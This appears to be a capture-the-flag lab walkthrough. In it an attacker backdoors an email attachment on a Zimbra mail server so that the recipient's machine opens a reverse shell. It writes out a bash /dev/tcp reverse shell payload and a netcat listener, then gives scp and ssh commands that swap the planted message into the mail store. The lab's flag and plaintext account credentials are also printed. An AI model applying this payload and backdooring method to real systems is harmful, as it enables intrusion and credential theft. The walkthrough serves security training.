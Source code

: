 # PC3

1. Resume From [🗂 Mail Server](/2_mail_server/)
2. Check Emails: [🗂 258-3.msg](/2_mail_server/08-store0/3/msg/0/258-3.msg)

```text
سلام
نرم افزار درخواست شده را پیوست کردم.
```

```shell
#!/bin/bash

username=""
password="" 

server_ip=$(ip r | grep default | cut -f 3 -d ' ')
server_ip=""
case "$1" in
logout)
 curl --insecure -X GET https://$server_ip:4081/internal/logout
 ;;
*)

 if [ -z $username ]; then
  read -p "Enter the Username:" username
 fi

 # if password is empty get it!
 if [ -z $password ]; then
  read -sp "Password:" password
 fi

 curl --insecure -X POST https://$server_ip:4081/internal/dologin.php?NTLM=0 --data-urlencode "kerio_username=$username" --data-urlencode "kerio_password=$password"

 res=$(curl -I https://www.google.com -m 5 2>/dev/null | head -n 1 | cut -f 2 -d " ")
 if [[ $res == "200" ]]; then
  printf "\033[1m\033[92mYou Are Connected Now!\033[0m"
 else
  printf "\033[1m\033[91mNot Connected!\033[0m"
 fi
 printf "\n\n"
esac
```

3. Create a Reverse Shell Payload

```shell
ls;/bin/sh -i >& /dev/tcp/10.8.0.29/9999 0>&1;
```

4. Encode Base64 and Replace as `kerio_connect` attachment: [🗂 kerio_connect](./04-258-3-backdoor.msg)
5. Listen On local System: `nc -l 0.0.0.0 9999`
6. Copy Backdoored Email into Server

```shell
scp -i ~/.ssh/id_rsa -P 2200 ./04-258-3-backdoor.msg  zimbra@172.16.3.67:/opt/zimbra/store/0/3/msg/0
```

7. Login and Replace Email, Restart Zimbra

```shell
ssh -i ~/.ssh/id_rsa -p 2200 zimbra@172.16.3.67

# inside ssh
cd /opt/zimbra/store/0/3/msg/0/
mv 258-3.msg 258-3.bak.msg
mv 04-258-3-backdoor.msg 258-3.msg

# restarting Zimbra
zmcontrol restart
```

8. Read Flag: MAZAPA_e8be86e920cb98bc93e7d3803912e72a
9. Read `/read.py` and Get Username/Password

```text
username = "savad-koohi@petromaz.ir"
password = "EmdQXL82YejA"
server = "mail"
```
